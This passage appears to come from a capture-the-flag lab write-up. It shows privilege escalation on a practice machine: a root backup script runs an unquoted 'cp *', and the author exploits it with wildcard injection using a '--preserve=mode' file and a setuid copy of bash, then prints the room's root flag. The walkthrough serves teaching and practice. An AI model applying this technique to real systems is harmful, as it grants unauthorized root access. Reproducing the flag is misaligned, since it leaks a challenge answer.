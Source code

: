 It seems like there is some sort of backup going in the background by the root user that backups the contents of the `report` directory but, it changes the `ownership` to root, let's use `pspy` to check if its true:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504153600.png)

Nothing weird on here, maybe we are checking for a binary, let's use linpeas then:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504153821.png)

We got a `/usr/bin/backup`, let's check it out:

```
gordon@devie:~$ file /usr/bin/backup
/usr/bin/backup: Bourne-Again shell script, ASCII text executable

gordon@devie:~$ cat /usr/bin/backup
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/
```

As seen, this uses `*` to copy the contents of the `reports` directory to the `backups` directory, this is vulnerable to `wildcard injection` due to the `*` character being `unquoted`,  we can get a root shell by doing the following:

```
cd /home/gordon/reports/
touch -- '--preserve=mode'
cp /bin/bash .
chmod u+s bash
```

Once the /usr/bin/backup triggers, we can now see the bash binary inside of the backups directory:

```
gordon@devie:~/backups$ ls -la
total 1180
drwxrwx--- 2 gordon gordon    4096 May  4 21:06 .
drwxr-xr-x 6 gordon gordon    4096 May  4 20:36 ..
-rwsr-xr-x 1 root   root   1183448 May  4 21:07 bash
-rwxrwxr-x 1 root   root        25 May  4 21:07 exploit.sh
-rw-r--r-- 1 root   root        57 May  4 21:07 report1
-rw-r--r-- 1 root   root        72 May  4 21:07 report2
-rw-r--r-- 1 root   root       100 May  4 21:07 report3
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504160803.png)

There we go, let's read root flag and finish:

```
bash-5.0# cat /root/root.txt
THM{J0k3r$_Ar3_W1ld}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504160833.png)

